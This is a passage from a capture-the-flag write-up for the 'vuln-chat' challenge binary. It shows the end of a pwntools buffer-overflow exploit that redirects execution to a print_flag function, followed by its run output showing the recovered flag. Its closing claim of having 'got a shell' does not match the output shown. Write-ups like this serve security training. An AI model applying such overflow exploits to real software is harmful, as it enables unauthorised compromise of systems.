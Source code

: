 ```
payload1 += p32(0x804856b) # Address of the print_flag function

# Send the second payload with a newline character
target.sendline(payload1)

# Drop to an interactive shell to view the rest of the input
target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Starting local process './vuln-chat': pid 9724
----------- Welcome to vuln-chat -------------
Enter your username:
Welcome 00000000000000000000%99s!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
[*] Switching to interactive mode

00000000000000000000%99s: djinn: Sorry. That's not good enough
flag{g0ttem_b0yz}
Use it wisely
[*] Got EOF while reading in interactive
$  
```

Just like that we got a shell!